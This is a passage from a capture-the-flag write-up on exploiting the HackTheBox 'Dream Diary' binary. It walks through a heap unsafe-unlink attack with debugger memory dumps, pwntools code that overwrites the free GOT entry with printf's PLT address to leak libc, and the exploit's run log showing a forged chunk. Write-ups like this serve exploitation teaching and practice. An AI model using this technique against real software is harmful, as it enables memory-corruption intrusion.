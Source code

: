 ```r
gef➤  x/10xg 0x6020c0
0x6020c0:	0x0000000002236010	0x00000000022360a0
0x6020d0:	0x0000000002236130	0x00000000006020c0
```

Now as we see the global array having a pointer to itself on index 3, this means that the chunk 3 is now pointing to the global array itself, let's see what happened under the hood when we did `free(4)`, I will break it down in following steps:-

* There was a forged free'd chunk with the `fd` and `bk` pointing to the global array.
* When the `free(4)` is called and the chunk `4` was initally freed and the forged chunk was coalesced with the chunk `4`.
* Once coalesced, the unlink is triggered resulting in the 3rd chunk pointer in the global array being overwritten with the address we wanted it to.

Now, we have the control over the chunk `3`, we can edit it and get the other pointer overwritten too, if we could overwrite one of the entry with any GOT address, we can get the control over the binary.

```py
log.info("Changing freegot to print@plt for LIBC Leak")
edit(3, p64(elf.got("free")))
edit(0, p64(elf.plt("printf")))
```

So, from the code above you can see, first we overwrite the pointer returned by the chunk `3` which would be the global array itself, then we request for the first chunk via the `edit` function and since the 0th chunk address point to the `free@got`, we get the pointer of `free@GOT` and then it is being overwritten with the `printf@plt`.


```r
0  [13:09:56] vagrant@oracle(oracle) HackTheBox> python3 chapter1.py 
[+] Starting program './chapter1': PID 1985
[*] Analyzing /media/sf_Pwning/HackTheBox/chapter1
[*] Analyzing /home/vagrant/tools/LibcSearcher/libc-database/db/libc6_2.23-0ubuntu10_amd64.so
[*] Created 5 chunks of size: 0x88
[*] Preparing a fake chunk...
[*] Fake chunk:
    00000000:  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
    00000010:  c0 20 60 00 00 00 00 00  c8 20 60 00 00 00 00 00  |. `...... `.....|
    00000020:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000030:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000040:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000050:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000060:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000070:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000080:  80 00 00 00 00 00 00 00  90                       |.........|
[*] Editing chunk 3 with a fakr chunk
[*] Triggering Unlink
[*] Changing freegot to print@plt for LIBC Leak
[*] Switching to interactive mode
Done!

+------------------------------+
|         Dream Diary          |
+------------------------------+
| [1] Allocate                 |
| [2] Edit                     |
| [3] Delete                   |
| [4] Exit                     |
+------------------------------+
>> Invalid choice!

+------------------------------+
|         Dream Diary          |
+------------------------------+
```